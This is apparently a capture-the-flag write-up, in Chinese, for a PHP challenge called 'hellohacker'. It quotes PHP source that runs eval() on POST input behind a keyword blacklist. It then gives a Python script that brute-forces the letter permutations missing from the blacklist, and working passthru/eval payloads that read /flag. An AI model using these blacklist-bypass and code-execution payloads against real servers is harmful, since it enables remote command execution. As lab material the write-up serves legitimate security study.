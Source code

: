 # hellohacker题解
## 考点
- RCE
- 黑名单爆破
## 分析
首先分析下面的源码：
- 先包含了两个php文件，从名字上来看应该是做敏感字符过滤的；
- 然后post提交两个参数`incompetent`和`WuCup`，结合下面的代码可知，`incompetent`的值需为`HelloHacker`；
- 接下来就是重点绕过的地方，大致逻辑就是需要包含`pevanxroz`这几个字母，然后逐行读取`prohibited.txt`，然后检查`$WuCup`中是否包含，如果包含则退出程序并回显`this road is blocked`，否则执行`eval`。
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include_once 'check.php';
include_once 'ban.php';

$incompetent = $_POST['incompetent'];
$WuCup = $_POST['WuCup'];

if ($incompetent !== 'HelloHacker') {
    die('Come invade!');
}

$required_chars = ['p', 'e', 'v', 'a', 'n', 'x', 'r', 'o', 'z'];
$is_valid = true;

if (!checkRequiredChars($WuCup, $required_chars)) {
    $is_valid = false;
}

if ($is_valid) {

    $prohibited_file = 'prohibited.txt';
    if (file_exists($prohibited_file)) {
        $file = fopen($prohibited_file, 'r');
        
while ($line = fgets($file)) {
    $line = rtrim($line, "\r\n");  
    if ($line === '' && strpos($WuCup, ' ') === false) {
      
        continue;
    }
    if (stripos($WuCup, $line) !== false) {
        fclose($file);  
        die('this road is blocked');
    }
}

        
        fclose($file);  
    }

    eval($WuCup);
} else {
    die('NO！NO！NO！');
}
?>
Come invade!
```

很明显，我们需要绕过最后一段检查，既然要求我们包含`pevanxroz`这几个字母，不妨先构造`incompetent=HelloHacker&WuCup=pevanxroz`，回显如下，说明`pevanxroz`这个也被ban了，即`prohibited.txt`中包含了一些`pevanxroz`的组合结果：
![alt text](images/image1.png)

那么我们先试着访问一下`prohibited.txt`，发现有大量被ban的字符：
![alt text](images/image2.png)

因此，我们需要：<mark>先爆破`pevanxroz`这几个字母的哪些排列组合没有被ban掉，然后再去执行命令，拿到flag</mark>
## 题解
首先写个爆破脚本:
```python
import requests
from itertools import permutations

url = 'http://challenge.wucup.cn:21968/prohibited.txt'
WuCup_values = ['p', 'e', 'v', 'a', 'n', 'x', 'r', 'o', 'z']

resp = requests.get(url)
prohibited_chars = set(resp.text.strip().splitlines())

valid_chars = []
 
for test_value in permutations(WuCup_values):
    WuCup = ''.join(test_value)
    '''
    data = {
        'incompentent': incompentent,
        'WuCup': WuCup
        }
    '''
    if WuCup not in prohibited_chars:
        valid_chars.append(WuCup)
 
for wucup in valid_chars:
    print(wucup)
```
得到：
![alt text](images/image3.png)

因此初步构造payload为`incompetent=HelloHacker&WuCup=oxzverapn`，然后我们接下来就是想办法拿到flag，如果直接传入`incompetent=HelloHacker&WuCup=oxzverapn;system('cat /flag')`发现会被ban掉，因为system这些也被禁了，因此考虑利用passthru来执行命令，并且保证cat flag不出现在WuCup这个参数中，因此构造payload如下：
```
incompetent=HelloHacker&WuCup=oxzverapn;passthru($_POST["test"]);&test=cat%20/flag
```
![alt text](images/image4.png)

## 题内话
细心的小伙伴可能会发现，为什么我`incompetent=HelloHacker&WuCup=oxzverapn;passthru($_POST['test']);&test=cat%20/flag`单引号就不行，而且`incompetent=HelloHacker&WuCup=oxzverapn;eval($_POST[test]);&test=system("cat%20/flag");`的eval命名再prohibited.txt中也可以执行成功，但exec就不行？这个就需要从如下两行代码及prohibited.txt中的小心机解释了：
```php
    $line = rtrim($line, "\r\n");  
    if ($line === '' && strpos($WuCup, ' ') === false) {
      
        continue;
    }
    if (stripos($WuCup, $line) !== false) {
        fclose($file);  
        die('this road is blocked');
    }
```
我们会看到上面这段代码会先去除掉每行的换行，为什么？，来看一下prohibited.txt的内容：
![alt text](images/image5.png)
![alt text](images/image6.png)

发现什么不同了吗？没错，有的行的内容在被ban的字符后面加了个空格，而有的是加了换行，结合上面的过滤代码，这就是为什么我们传入`'`被匹配到以及传入eval(...)没有被匹配到的原因，即读到单引号行时先去除了换行然后再和我们传入的匹配，读到`eval `行时，与我们传入的`eval`并未匹配。

这题目纯nm脑瘫。。。
